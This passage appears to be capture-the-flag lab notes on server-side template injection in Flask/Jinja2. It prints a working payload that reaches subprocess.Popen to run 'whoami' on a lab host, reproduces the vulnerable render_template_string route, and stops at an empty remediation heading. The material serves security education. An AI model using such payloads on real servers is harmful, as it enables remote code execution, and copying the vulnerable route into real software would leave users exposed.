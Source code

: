 ```python
{{ ''.__class__.__mro__[1].__subclasses__()[401] }}

#### full payload 
http://10.10.254.18:5000/profile/{{ ''.__class__.__mro__[1].__subclasses__()[401]("whoami", shell=True, stdout=-1).communicate() }}

# returns (b'jake\n',None)
```

**Finding payloads**  
The process to build a payload takes a little while when doing it for the first time, however it is important to understand why it works.

For quick reference, an amazing GitHub repo has been created as a cheatsheet for payloads for all web vulnerabilities, including SSTI.

The repo is located 
- [https://github.com/swisskyrepo/PayloadsAllTheThing] 
- while the document for SSTI is located 
- [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection ]

## Examination 

Now that we've exploited the application, let's see what was actually happening when the payload was injected.

The code that we exploited was the same as shown in Task 1:

```python
from flask import Flask, render_template_string 
app = Flask(__name__) 
@app.route("/profile/<user>") 
def profile_page(user): 
	template = f"<h1>Welcome to the profile of {user}!</h1>" 
	return render_template_string(template) 
app.run()
```

Let's imagine this like a simple find and replace.
Refer to the code below to see exactly how this works:
```python
# Raw code 
template = f"<h1>Welcome to the profile of {user}!</h1>" 
# Code after injecting: TryHackMe 
template = f"<h1>Welcome to the profile of TryHackMe!</h1>" 
# Code after injecting: {{ 7 * 7 }} 
template = f"<h2>Welcome to the profile of {{ 7 * 7 }}!</h1>"
```

As we learned in Task 4, Jinja2 is going to evaluate code that is in-between those sets of characters, which is why the exploit worked.

## remediation 
